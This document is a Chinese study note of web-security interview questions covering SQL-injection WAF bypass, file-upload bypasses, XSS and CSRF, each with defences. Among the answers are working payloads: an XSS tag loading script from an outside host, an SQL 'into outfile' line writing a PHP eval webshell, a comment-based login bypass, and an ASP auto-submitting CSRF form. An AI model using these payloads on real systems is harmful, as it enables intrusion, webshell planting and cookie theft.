 ```yaml
---
title: 网安面试问题汇总
date: 2022-02-07 12:56:59
categories: 笔记
tags: [Web,网络安全,笔记]
---
```


## 1.SQL注入的WAF绕过

- 白盒  框架源码，代码审计
- 黑盒绕过
  - 架构层绕过
  - 资源限制角度绕过
  - 协议层
  - 规则层面绕过

### 架构层绕过

寻找源站点地址（适用于网站使用云WAF场景）；

利用同网段主机（同网段主机可以直接交换帧，无需交换机/网桥的转发）或服务器进行内网注入

> 通过网桥连接多个以太网成为覆盖更大的以太网（局域网：以太网，令牌环网，FDDI）。

碰撞/冲突域：任意两台主机通信（使用信道时，其他主机无法通信）——介质访问控制



### 资源限制角度绕过

- 多试一试，利用数据库特性
- 改其他格式文件，burp改文件后缀
- post的内容足够多——一个大的body；由于在线WAF会考虑速度，对大文件一般不过滤；

- 借助畸形包，或者模糊测试fuzz。

### 协议层绕过

- 参数污染，代入多个参数，有的WAF只能识别一个参数，可以在第二个参数后面带sql语句。

```php
  url.php?id=1&id=2
```

### **规则层的绕过**

- 注释符号#，‘ ’空白符号，函数分割，浮点数

- error-base，mysql特殊语法绕过

## 2.文件上传漏洞的绕过

- 修改后缀
- 绕后端：MineType，即修改Content-Type类型，%00截断（伪造合法文件头）
- Content-Disposition'...' filename="1.jpg;.php" ｜｜  去掉双引号 ｜｜ 把p  h  p换行   ｜｜php5
- webshell放入jpg；改幻数头字节，判断文件格式一般靠前10个字节。

### 文件上传漏洞的防护手段

- js过滤
- 限制文件大小
- 随机数改写文件名，取消执行权限，**将文件强制重命名另存储**
- 竞争条件？？
- 后端设置白名单（更安全，使用递归过滤，防治覆写）和黑名单（可能会有遗漏，可能靠大小写可以绕过）

## 3.XSS原理

>http://www.atomsec.org/%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%B0%84%E5%9E%8Bxss%E6%B5%8B%E8%AF%95%E5%8F%8A%E4%BF%AE%E5%A4%8D/

跨站脚本攻击，允许恶意web用户将代码植入到提供给其它用户使用的页面中，用户访问时将会自动执行。

分为**存储型**，反射型和DOM型。

### 3.1 攻击办法：

闭合标签，使我的内容能被解析成可执行语句；对url和参数进行各种编码（比如16禁止和8进制）

### 3.2 防御手段：

将特殊字符过滤(",<,>,&"),使其成为不能被html执行的字符；

做白名单过滤，专门过滤，使用**内容安全的策略CSP**（规定客户端哪些内容可以加载）；

禁止非同源网站读cookie

- 反射型（给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须**用户点击带有特定参数的链接**才能引起。）

- 存储型——把用户cookie信息发到攻击者服务器

```js
在搜索框输入这一行在服务器上直接被解析成了js语句；
　“<script>alert(1)</script>”
search.php?q=%3Cscript+src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E
```

当用户登陆了网站后，再欺骗用户点击这个链接才可以窃取用户的cookie。

## 深信服安全岗面试题

1.sql注入如何读写文件，二次注入，防御方式？

```sql
#读：
select load_file('C:\\key.txt')
#写：
开权限：secure_file_priv into outfile
unoion select 1,'<?php @eval($_POST[‘mima’]);?>',3 into outfile "C:\\test\shellcode.php"
#二次注入
admin'--  #借助--把后面的语句注释了
select ... username='admin'--  and password='xxx'
#sql注入的防御
- 预编译，例如Java中PrepareStatement，从结构上限制编写；
Mybatis？？ #预编译  $进行替换
- 参数判断，强转参数int(and 1==1--+)

```

2.CSRF和XSS的区别

XSS，原来叫做CSS (Cross Site Script) ，跨站调用脚本攻击站内的信任用户，盗取cookie；

CSRF通过伪装成受信任用户请求受信任的网站；

```asp
<%
s = "<form method='post' action='http://hi.baidu.com/yuxi4n/commit'>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='5' name='ct'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='1' name='spCssUse'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='1' name='spCssColorID'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='-1' name='spCssLayoutID'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='http://hi.baidu.com/yuxi4n/modify/spcss/20f51f4f94129a36aec3ab11.css/edit' name='spRefURL'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='5' name='cm'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='</style><script>alert(document.cookie)</script><style>' name='spCssText'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='abc' name='spCssName'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='0' name='spCssTag'/>"
s = s+"</form>"
s = s+"<script>document.forms[0].submit();</script>"
Response.write(s)
%>
```



防御手段：CSRF Token+Referer的验证

> http://huaidan.org/archives/2561.html,借助CSRF和其他手段，可以把反射型XSS持久化利用，不一定需要用户去点击特殊构造的链接。




